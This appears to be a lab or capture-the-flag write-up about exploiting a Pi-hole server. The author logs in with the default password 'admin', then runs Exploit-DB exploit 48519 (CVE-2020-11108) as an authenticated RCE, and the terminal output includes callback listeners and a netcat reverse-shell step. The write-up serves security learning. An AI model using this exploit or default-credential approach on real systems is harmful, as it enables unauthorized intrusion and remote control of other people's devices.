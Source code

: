 The first thing that I tried when visiting the login page
was the password "admin" and the guess was correct.

On the landing page, I checked what version of Pi-hole
was installed.

![Pi-Hole landing page with version highlighted](../../images/pi-hole-version.png){: .image-process-crisp}

The next obvious thing was to check if any vulnerability is present on that version in Exploit DB,
where this was found: https://www.exploit-db.com/exploits/48519

An authenticated RCE, perfect!

```bash
root@env263.kali05:/home/gt/its-always-dns# python3 48519.py 
[!] No arguments found: python3 CVE-2020-11108.py <dstIP> <srcIP> <PWD>
    Example: ./CVE-2020-11108.py 192.168.50.130 192.168.50.1 6DS4QtW5
    But for now, I will ask questions
[?] Please enter the IP address for Pi-Hole ([env263.target03]): 
[?] Please enter the your (reachable) IP address to launch listeners ([10.85.26.3]): 
[?] Please enter the password for Pi-Hole ([admin]): 
[+] Vulnerable URL is http://env263.target03/admin
[+] Creation success, ID is 6!
[!] Binding to 10.85.26.3:80
[+] Yes, we have an incoming connection from 10.93.26.3
[!] Closing Listener
[+] Update succeeded.
[+] This system is vulnerable!
Want to continue with exploitation? (Or just run cleanup)? [y/N]: y
Want root access? (Breaks the application!!) [y/N]: 
Ok, make sure to have a netcat listener on "10.85.26.3:9001" ("nc -lnvp 9001") and press enter to continue...
[!] Binding to 10.85.26.3:80
[+] Yes, we have an incoming connection from 10.93.26.3
[!] Closing Listener
[+] Update succeeded.
[+] Calling http://env263.target03/admin/scripts/pi-hole/php/aotagnto.php
[+] Calling exploit succeeded.
    
[+] Cleaning up now.
[+] Remove success
[+] All done, press enter to exit
```
